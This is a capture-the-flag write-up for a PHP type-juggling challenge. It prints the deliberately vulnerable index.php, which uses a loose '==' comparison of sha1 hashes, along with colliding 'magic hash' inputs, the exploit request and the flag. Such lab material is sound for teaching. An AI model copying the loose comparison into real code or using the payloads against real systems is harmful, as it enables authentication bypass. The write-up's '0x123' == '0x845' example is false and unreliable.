 # What does clowns do at the circus?

Author: [Ting Hui](https://github.com/ChanTingHui)

## Description

PHP type juggling vulnerability

## Requirements

- PHP
- Docker: [Dockerfile](./Dockerfile)

## Sources

```
find the vulnerability or u gonna waste a lot of time ====, == or =
```

## Exploit
From `index.php`, you can see the default codes.

```php
<?php

if (isset($_GET['hash'])) {
    if ($_GET['hash'] === "10932435112") {
        die('you think it is this easy???.');
    }

    $hash = sha1($_GET['hash']);
    $target = sha1(10932435112);
    if($hash == $target) {
        include('flag.php');
        print $flag;
    } else {
        print "wssqrctf{loser_tryharder}";
    }
} else {
    show_source(__FILE__);
}

?>
```
Firstly, you can see that its requires a match of `hash` and `target`. From there u can see a vulnerability as the comparison of `$hash` and the `$target` and it uses `==` instead of `===` as `==` prompt a vulnerability to type juggling as it does not check the types, instead they are treated as numbers.
For example,
```
'0x123' == '0x845' is true
'0x123' === '0x845' is false
```
Better understanding at:
https://git.linuxtrack.net/Azgarech/PayloadsAllTheThings/blob/master/PHP%20juggling%20type/README.md1'

Hence, the hash `10932435112` starts with `0e....`, which means any hashes that starts with `0e` will match with the hash. By doing a semi brute force u will be able to find numerous matches of hashes which starts with `0e`.

```
aaroZmOk
aaK1STfY
aaO8zKZF
...
```
Next, pass any hashes into the GET pram at IP:port/?hash=aaroZmOk adnd you will get your flag.
<br />

The flag is:
```
wssqrctf{typ3_juGGl1ng}
```

